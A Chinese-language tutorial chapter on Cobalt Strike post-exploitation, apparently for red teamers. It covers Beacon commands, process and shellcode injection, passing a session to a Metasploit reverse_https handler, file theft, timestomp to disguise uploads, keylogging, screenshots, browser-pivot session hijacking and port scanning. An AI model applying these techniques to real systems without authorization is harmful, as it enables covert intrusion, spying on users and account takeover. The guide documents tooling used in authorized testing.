



# Cobalt Strike — 0x04 后渗透

## 0x04 后渗透

## 1、Beacon 的管理

**Beacon 控制台**

在一个 Beacon 会话上右击 `interact`（交互）即可打开 Beacon 控制台，如果想对多个会话进行控制，也只需选中多个会话，执行相关功能即可。



在 Beacon 的控制台中的输入与输出之间，是一个状态栏，状态栏上的信息分别是：目标 NetBIOS 名称、用户名、会话PID以及 Beacon 最近一次连接到 CS 团队服务器的时间。

Beacon 控制台是在使用 CS 的过程中，很经常用到的功能，向 Beacon 发出的每个命令，都可以在这里看到，如果队友发送了消息，在 Beacon 控制台同样能看到，消息前还会显示队友的名称。

**Beacon 菜单**

Access：包含了一些对凭据的操作及提权的选项

Explore：包含了信息探测与目标交互的选项

Pivoting：包含了一些设置代理隧道的选项

Session：包含了对当前 Beacon 会话管理的选项

**Beacon 命令**

help：查看 Beacon 命令的帮助信息。使用 help + 待查看帮助的命令可查看该命令的帮助信息。

clear：清除 Beacon 命令队列。Beacon 是一个异步的 Payload，输入的命令并不会立即执行，而是当 Beacon 连接到团队服务器时再一一执行命令，因此当需要清除队列命令时就可以使用 clear 命令。

sleep：改变 Beacon 的休眠时间。输入 `sleep 30`表示休眠30秒；输入`sleep 60 50`表示，随机睡眠 30秒至60秒，其中30秒 = 60 x 50%；如果输入 `sleep 0`则表示进入交互模式，任何输入的命令都会被立即执行，当输入一些命令，比如`desktop`时， Beacon 会自动进入交互模式。

shell：通过受害主机的 cmd.exe 执行命令。比如运行`ipconfig`，就需要输入`shell ipconfig`

run：不使用 cmd.exe 执行命令。该命令也是 run + 命令的形式运行，该命令会将执行结果回显。

execute：执行命令，但不回显结果。

cd：切换当前工作目录。

pwd：查看当前所在目录。

powershell：通过受害主机的 PowerShell 执行命令。比如想在 PowerShell 下运行 `ipconfig`，就需要输入`powershell ipconfig`

powerpick：不使用 powershell.exe 执行 powershell 命令。这个命令依赖于由 Lee Christensen 开发的非托管 PowerShell 技术。powershell 和 powerpick 命令会使用当前令牌（ token ）。

psinject：将非托管的 PowerShell 注入到一个特定的进程中并从此位置运行命令。

powershell-import：导入 PowerShell 脚本到 Beacon 中。直接运行 powershell-import + 脚本文件路径即可，但是这个脚本导入命令一次仅能保留一个 PowerShell 脚本，再导入一个新脚本的时候，上一个脚本就被覆盖了，因此可以通过导入一个空文件来清空 Beacon 中导入的脚本。

powershell get-help：获取 PowerShell 命令的相关帮助信息。比如想获取 PowerShell 下 get-process 命令的帮助，就需要输入`powershell get-help  get-process`

execute-assembly：将一个本地的 .NET 可执行文件作为 Beacon 的后渗透任务来运行。

setenv：设置一个环境变量。

## 2、会话传递

**会话传递相关命令**

Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

`spawn`：进行会话的传递，也可直接右击会话选择`spawn`命令进行会话的选择。默认情况下，`spawn`命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用`spawnto`命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。

`spawnto`：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入`spawnto`命令然后按 enter 会指示 Beacon 恢复至其默认行为。

`inject`：输入`inject + 进程 id + 监听器名`来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用`inject [pid] x64`来将一个64位 Beacon 注入到一个 64位进程中。

`spawn`和`inject`命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。

`dllinject`：`dllinject + [pid]`来将一个反射性 DLL 注入到一个进程中。

`shinject`：使用`shinject [pid] [架构] [/路径/.../file.bin]`命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。

`shspawn`：使用`shspawn [架构] [/路径/.../file.bin]`命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。

`dllload`：使用`dllload [pid] [c:\路径\...\file.dll]`来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**

1、将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload

```plain
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
```

随后，在CS中新建一个外部`Foreign`监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用`spawn`选择刚新建的外部监听器，MSF中即可返回会话。

## 3、文件系统

浏览会话系统文件位置在右击会话处，选择 `Explore --> File Browser`即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。

在进行文件浏览时，如果 beacon 设置的 sleep 值较高，CS会因此而变得响应比较慢。

彩色文件夹表示该文件夹的内容位于此文件浏览器的缓存中；深灰色的文件夹表示该文件夹的内容不在此文件浏览器缓存中。

**文件下载**

`download`：下载请求的文件。Beacon 会下载它的任务要求获取的每一个文件的固定大小的块。这个块的大小取决于 Beacon 当前的数据通道。HTTP 和 HTTPS 通道会拉取 512kb 的数据块。

`downloads`：查看当前 Beacon 正在进行的文件下载列表。

`cancel`：该命令加上一个文件名来取消正在进行的一个下载任务。也可以在 cancel 命令中使用通配符来一次取消多个文件下载任务。

下载文件都将下载到CS团队服务器中，在`View --> Download`下可看到下载文件的记录，选中文件后使用`Sync Files`即可将文件下载到本地。

**文件上传**

`upload`：上传一个文件到目标主机上。

`timestomp`：将一个文件的修改属性访问属性和创建时间数据与另一个文件相匹配。当上传一个文件时，有时会想改变此文件的时间戳来使其混入同一文件夹下的其他文件中，使用timestomp 命令就可以完成此工作。

## 4、用户驱动溢出攻击

Beacon 运行任务的方式是以`jobs`去运行的，比如键盘记录、PowerShell 脚本、端口扫描等，这些任务都是在 beacon check in 之间于后台运行的。

`jobs`：查看当前 Beacon 中的任务

`jobkill`：加上任务 ID，对指定任务进行停止

**屏幕截图**

`screenshot`：获取屏幕截图，使用`screenshot pid`来将截屏工具注入到一个 x86 的进程中，使用`screenshot pid x64`注入到一个 x64 进程中，explorer.exe 是一个好的候选程序。

使用`screenshot [pid] [x86|x64] [time]`来请求截屏工具运行指定的秒数，并在每一次 Beacon 连接到团队服务器的时候报告一张屏幕截图，这是查看用户桌面的一种简便方法。要查看截屏的具体信息，通过`View --> Screenshots`来浏览从所有 Beacon 会话中获取的截屏。

**键盘记录**

`keylogger`：键盘记录器，使用`keylogger pid`来注入一个 x86 程序。使用`keylogger pid x64`来注入一个 x64 程序，explorer.exe 是一个好的候选程序。

使用单独的 keylogger 命令来将键盘记录器注入一个临时程序。键盘记录器会监视从被注入的程序中的键盘记录并将结果报告给 Beacon，直到程序终止或者自己杀死了这个键盘记录后渗透任务。要查看键盘记录的结果，可以到`View --> Keystrokes`中进行查看。

**其他**

除了上述使用命令的方式进行屏幕截图和键盘记录，也可以来到`Explore --> Process List`下选择要注入的进程，再直接点击屏幕截图或键盘记录的功能按钮。

从使用上，具体注入那个程序都是可以的，只是注入 explorer.exe 会比较稳定与持久。值得注意的是，多个键盘记录器可能相互冲突，每个桌面会话只应使用一个键盘记录器。

## 5、浏览器转发

浏览器转发是指在已经攻击成功的目标中，利用目标的信息登录网站进行会话劫持，但是目前只支持目标正在使用IE浏览器的前提下。关于如何判断当前用户是否使用IE浏览器，则可以通过屏幕截图来判断。如下图中，通过屏幕截图可以看到目标正在使用IE浏览器登陆着当前网站的admin账户。



找到目前正在使用IE浏览器的目标后，右击该会话，选择`Explore --> Browser Pivot`，随后选择要注入的进程，CS 会在它认为可以注入的进程右边显示一个对勾，设置好端口后，点击运行即可。

此时，在浏览器中配置代理，代理配置为http代理，IP为CS团队服务器IP，端口为刚设置的端口。

代理配置好后，在浏览器中打开目标当前正在打开的网址，即可绕过登录界面。

## 6、端口扫描

`portscan`：进行端口扫描，使用参数为：`portscan [targets] [ports] [discovery method]`。

目标发现`discovery method`有三种方法，分别是：`arp、icmp、none`，`arp`方法使用 ARP 请求来发现一个主机是否存活。`icmp`方法发送一个 ICMP echo 请求来检查一个目标是否存活。`none`选项让端口扫描工具假设所有的主机都是存活的。

端口扫描会在 Beacon 和团队服务器通讯的这个过程中不停运行。当它有可以报告的结果，它会把结果发送到 Beacon 控制台。Cobalt Strike 会处理这个信息并使用发现的主机更新目标模型。

右击 Beacon会话，在`Explore --> Port Scan`中即可打开端口扫描的图形窗口，CS会自动填充扫描地址，确认扫描地址、端口、扫描方式等无误后，开始扫描即可。扫描结束后，在 target table页面中可看到扫描结果，右击会话，选择 Services 可查看详细的扫描结果。


